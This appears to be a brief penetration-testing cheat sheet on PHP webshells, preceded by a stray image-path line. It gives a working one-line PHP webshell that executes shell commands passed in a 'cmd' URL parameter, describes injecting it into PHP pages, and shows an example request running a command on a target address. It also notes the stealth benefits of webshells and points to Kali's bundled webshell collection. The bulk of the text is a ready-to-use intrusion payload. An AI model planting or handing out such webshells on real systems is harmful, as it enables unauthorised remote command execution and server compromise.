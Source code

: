 # Webshell

## Basic cmd-shell

This code can be injected into pages that use php.
```
<?php system($_GET['cmd']); ?>
```

You can then call then execute the commands like this:

```
http://192.168.1.103/index.php?cmd=pwd
```

## Webshells

Wellshells have the benefit of running on port 80/443. Which makes it a bit more stealthy, it doesn't create a new connection that can be discovered. But on the other hand it creates a lot of strange logs that can be easy to detect.

You have access to different kinds of webshells on Kali here:
```
/usr/share/webshells
```

http://www.binarytides.com/web-shells-tutorial/

